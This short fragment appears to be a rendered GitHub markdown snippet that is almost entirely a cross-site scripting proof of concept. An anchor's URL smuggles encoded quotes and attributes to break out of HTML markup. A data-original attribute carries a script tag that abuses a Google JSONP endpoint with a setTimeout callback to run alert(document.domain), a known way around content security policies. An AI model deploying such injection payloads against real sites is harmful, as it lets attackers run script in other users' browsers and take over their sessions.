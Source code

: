 <a href='https://raw.githubusercontent.com/smartaptlimited/new/main/bbb%22class%3D%22gfm%22a%3D%27.png'>
' data-design="1" data-issue="1" data-reference-type="design" data-original='
  <script src="https://apis.google.com/complete/search?client=chrome&q=alert(document.domain);//&callback=setTimeout"></script>
'
</a>
